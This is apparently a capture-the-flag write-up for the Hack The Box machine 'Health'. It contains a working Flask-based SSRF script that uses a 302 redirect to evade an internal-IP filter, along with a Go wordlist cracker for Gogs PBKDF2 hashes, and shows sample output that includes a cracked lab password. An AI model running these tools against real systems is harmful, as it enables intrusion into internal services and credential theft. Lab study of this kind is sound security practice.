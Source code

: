 # Hack The Box. Machines. Health

Machine write-up: https://7rocky.github.io/en/htb/health

### `ssrf.py`

This Python script is used to perfor a Server-Side Request Forgery attack via redirection with Flask.

The server offers a webhook functionality to test for a given URL and obtain the HTTP response in another URL. The idea is to test an internal URL, but internal IP addresses are filtered. Instead, we can apply a `302 Found` redirection to redirect the web client to an internal URL and read the response.

For that, we can use this Flask configuration:

```py
app = Flask(__name__)
logging.getLogger('werkzeug').setLevel(logging.CRITICAL)


@app.route('/monitored', methods=['GET'])
def monitored():
    return redirect(monitored_url)


@app.route('/payload', methods=['POST'])
def payload():
    print('\n[+] SSRF Response:\n\n' + request.json.get('body'))
    os._exit(0)
```

Both endpoints are really simple. Notice how I disabled the `werkzeug` logging and the use of `os._exit(0)` to force the exit of the program when received a request to `/payload`.

This is the `main` program:

```py
if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f'[!] Usage: {sys.argv[0]} <lhost> <monitored-url>')
        os._exit(1)

    lhost, monitored_url = sys.argv[1:]

    Thread(target=webhook, args=(lhost, )).start()
    app.run(host='0.0.0.0', port=80)
```

Notice that there is a function called `webhook` to configure the webhook in the web application. It uses a thread to make the configuration while setting up the Flask server:

```py
def webhook(lhost: str):
    s = requests.session()
    r = s.get('http://10.10.11.176')
    token = re.findall(r'<input type="hidden" name="_token" value="(.*?)">', r.text)[0]

    s.post('http://10.10.11.176/webhook', data={
        '_token': token,
        'webhookUrl': f'http://{lhost}/payload',
        'monitoredUrl': f'http://{lhost}/monitored',
        'frequency': '* * * * *',
        'onlyError': 0,
        'action': 'Test',
    })
```

We can use this script like this:

```console
$ python3 ssrf.py
[!] Usage: ssrf.py <lhost> <monitored-url>

$ python3 ssrf.py 10.10.17.44 http://127.0.0.1
 * Serving Flask app 'ssrf'
 * Debug mode: off

[+] SSRF Response:

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>HTTP Monitoring Tool</title>
    <link href="http://127.0.0.1/css/app.css" rel="stylesheet" type="text/css"/>
</head>
<body>
...
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to global variables and the imported libraries.

### `crack.go`

This script is used to crack a hashed password from Gogs using a wordlist.

First, we take the hash and salt and open the wordlist file. Then, we begin computing hashes using the same algorithm and salt until we find a coincidende:

```go
    hash, salt := os.Args[2], os.Args[3]
	file, err := os.Open(os.Args[1])

	if err != nil {
		fmt.Printf("File '%s' not found\n", os.Args[1])
	}

	defer file.Close()

	scanner := bufio.NewScanner(file)

	for scanner.Scan() {
		password := scanner.Text()

		if EncodePassword(password, salt) == hash {
			fmt.Println("[+] Cracked:", password)
			break
		}
	}
```

The function that computes the hash is called `EncodePassword` (from [Gogs](https://github.com/gogs/gogs)):

```go
// EncodePassword encodes password using PBKDF2 SHA256 with given salt.
func EncodePassword(password, salt string) string {
	newPasswd := pbkdf2.Key([]byte(password), []byte(salt), 10000, 50, sha256.New)
	return fmt.Sprintf("%x", newPasswd)
}
```

To run it, we need to download a module:

```console
$ go mod init crack
go: creating new go.mod: module crack
go: to add module requirements and sums:
        go mod tidy

$ go mod tidy
go: finding module for package golang.org/x/crypto/pbkdf2
go: found golang.org/x/crypto/pbkdf2 in golang.org/x/crypto v0.5.0
```

And then we can use the program like this:

```console
$ go run crack.go $WORDLISTS/rockyou.txt 66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37 sO3XIbeW14
[+] Craked: february15
```